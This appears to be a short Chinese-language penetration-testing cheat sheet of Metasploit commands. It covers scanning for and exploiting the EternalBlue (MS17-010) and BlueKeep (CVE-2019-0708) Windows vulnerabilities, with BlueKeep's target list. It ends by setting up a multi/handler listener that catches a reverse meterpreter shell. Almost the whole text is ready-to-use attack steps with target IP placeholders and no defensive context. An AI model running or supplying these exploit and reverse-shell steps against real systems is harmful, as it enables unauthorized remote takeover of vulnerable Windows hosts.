 

**MS17-010**
- MSF 模块
```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts <ip>
    run

    # 攻击目标机
    use exploit/windows/smb/ms17_010_eternalblue
    set rhosts <ip>
    set lport 4444 <自己端口>
```



**cve_2019_0708_bluekeep**
```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts <ip>
    run

    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target <1-7>
    set rhosts <ip>
    show options
    exploit
    shell
    python

       Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
   5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
   6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
   7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)

```


**Metasploit反弹shell**
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

